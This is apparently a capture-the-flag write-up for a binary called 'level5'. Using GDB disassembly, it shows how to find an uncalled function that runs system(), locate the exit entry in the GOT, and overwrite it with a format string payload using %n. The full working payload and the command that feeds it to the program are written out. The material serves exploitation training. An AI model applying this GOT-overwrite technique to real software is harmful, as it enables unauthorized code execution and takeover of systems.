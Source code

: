 # Level5

First step - testing the program

	$ ./level5
	coucou
	coucou

The program wait an input and print it

Start it in GDB

	(gdb-peda)$ pdisas main
	Dump of assembler code for function main:
	   0x08048504 <+0>:		push   ebp
	   0x08048505 <+1>:		mov    ebp,esp
	   0x08048507 <+3>:		and    esp,0xfffffff0
	   0x0804850a <+6>:		call   0x80484c2 <n>
	   0x0804850f <+11>:	leave
	   0x08048510 <+12>:	ret
	End of assembler dump.

The main call a function "n"

	(gdb-peda)$ pdisas n
	Dump of assembler code for function n:
	   0x080484c2 <+0>:		push   ebp
	   0x080484c3 <+1>:		mov    ebp,esp
	   0x080484c5 <+3>:		sub    esp,0x218
	   0x080484cb <+9>:		mov    eax,ds:0x8049848
	   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
	   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
	   0x080484dc <+26>:	lea    eax,[ebp-0x208]
	   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
	   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
	   0x080484ea <+40>:	lea    eax,[ebp-0x208]
	   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
	   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
	   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
	   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
	End of assembler dump.

Just a fgets and a call to "printf" for print the buffer and exit

Let's see all the functions

	(gdb-peda)$ info functions
	All defined functions:

	Non-debugging symbols:
	0x08048334  _init
	0x08048380  printf@plt
	0x08048390  _exit@plt
	0x080483a0  fgets@plt
	0x080483b0  system@plt
	0x080483c0  __gmon_start__@plt
	0x080483d0  exit@plt
	0x080483e0  __libc_start_main@plt
	0x080483f0  _start
	0x08048420  __do_global_dtors_aux
	0x08048480  frame_dummy
	0x080484a4  o
	0x080484c2  n
	0x08048504  main
	0x08048520  __libc_csu_init
	0x08048590  __libc_csu_fini
	0x08048592  __i686.get_pc_thunk.bx
	0x080485a0  __do_global_ctors_aux
	0x080485cc  _fini

There is a non-called "o" function

	(gdb-peda)$ pdisas o
	Dump of assembler code for function o:
	   0x080484a4 <+0>:		push   ebp
	   0x080484a5 <+1>:		mov    ebp,esp
	   0x080484a7 <+3>:		sub    esp,0x18
	   0x080484aa <+6>:		mov    DWORD PTR [esp],0x80485f0
	   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
	   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
	   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
	End of assembler dump.

The function call "system" and exit

We should call this function using a format string attack

***************************

Search the position of our buffer

	$ python -c 'print "BBBB"+" %x"*5' | ./level5
	BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520

4th position

After the printf, there is an exit call. We can't rewrite EIP, the program will exit before

But we can replace the address of exit in the GOT with the address of "o", for calling it instead of exit

The GOT (Global Offset Table) is a table of addresses in the data section, it contains the shared library functions addresses

Get the address of exit in the GOT

	(gdb-peda)$ info function exit
	All functions matching regular expression "exit":

	Non-debugging symbols:
	0x080483d0  exit@plt

	(gdb-peda)$ x/i 0x080483d0
	0x80483d0 <exit@plt>:	jmp    DWORD PTR ds:0x8049838

The address is "0x08049838"

Now, the address of the "o" function

	(gdb-peda)$ info function o
	All functions matching regular expression "o":

	Non-debugging symbols:
	0x080484a4  o

The address is "0x080484a4"

Ok, we have all the informations

************************************************

Build the payload

We need the number of bytes to write for the "%n" modifier

"0x080484a4" in decimal is "134513828" - the 4 bytes of the exit GOT address

	"exit GOT address" + "134513828 - 4 bytes" + "%4$n"

	python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"'

Let's go

	(python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' ; cat -) | ./level5

Script it for reproduce!
